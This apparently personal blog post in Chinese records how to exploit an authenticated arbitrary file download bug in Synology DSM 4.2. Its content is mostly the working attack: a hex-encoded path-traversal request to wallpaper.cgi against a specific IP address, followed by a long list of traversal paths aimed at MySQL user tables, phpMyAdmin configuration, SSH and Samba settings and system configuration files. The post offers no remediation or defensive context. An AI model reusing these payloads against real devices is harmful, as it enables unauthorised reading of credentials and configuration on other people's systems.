 title: "Synology DSM 4.2漏洞利用记录"
date: 2013-12-19 11:44:21
tags:
id: 448
comment: false
categories:
  - exploit
---

服务器使用的是Synology DSM 4.2系统，该系统存在任意文件下载漏洞（在任意用户登录的情况下）
Synology DSM 最新稳定版是4.3,依然存在漏洞。5.0是测试版。

漏洞说明：
登录任意帐号
例如下载php.ini：/usr/syno/etc/php.ini
路径写成：/usr/syno/synoman/webman/../../../../usr/syno/etc/php.ini
转换成16进制编码：2F7573722F73796E6F2F73796E6F6D616E2F7765626D616E2F2E2E2F2E2E2F2E2E2F2E2E2F7573722F73796E6F2F6574632F7068702E696E69
http://10.12.0.151:5000/webman/wallpaper.cgi?path=2F7573722F73796E6F2F73796E6F6D616E2F7765626D616E2F2E2E2F2E2E2F2E2E2F2E2E2F7573722F73796E6F2F6574632F7068702E696E69

http://1337day.com/exploit/21228

一些关键路径：

/usr/syno/synoman/webman/../../../../tmp/ipcheck.txt
/usr/syno/synoman/webman/../../../../var/log/error_log
/usr/syno/synoman/webman/../../../../etc/ftpuser

/usr/syno/synoman/webman/../../../../volume1/@database/mysql/my.cnf

/usr/syno/synoman/webman/../../../../usr/syno/etc/php.ini
/usr/syno/synoman/webman/../../../../usr/syno/etc/smb.conf
/usr/syno/synoman/webman/../../../../etc/ssh/sshd_config
/usr/syno/synoman/webman/../../../../etc/hosts.allow
/usr/syno/synoman/webman/../../../../etc.defaults/synoinfo.conf
/usr/syno/synoman/webman/../../../../volume1/web/phpMyAdmin/libraries/config.default.php
/usr/syno/synoman/webman/../../../../volume1/web/phpMyAdmin/libraries/config.inc.php
/usr/syno/synoman/webman/../../../../etc/mysql/my.cnf
/usr/syno/synoman/webman/../../../../usr/syno/mysql/share/mysql/my-small.cnf
/usr/syno/synoman/webman/../../../../usr/syno/mysql/share/mysql/mysql.server
/usr/syno/synoman/webman/../../../../usr/syno/mysql/bin/mysql
/usr/syno/synoman/webman/../../../../var/services/mysql/data/user.myd
/usr/syno/synoman/webman/../../../../usr/syno/etc/rc.d/S21mysql.sh
/usr/syno/synoman/webman/../../../../usr/my.cnf
/usr/syno/synoman/webman/../../../../usr/syno/mysql/data/mysql/user.MYD
/usr/syno/synoman/webman/../../../../usr/syno/etc/httpd-vhost.conf-user
/usr/syno/synoman/webman/../../../../usr/syno/synoman/webman/index.cgi
/usr/syno/synoman/webman/../../../../etc/synoinfo.conf
/usr/syno/synoman/webman/../../../../usr/syno/etc/camera_model.conf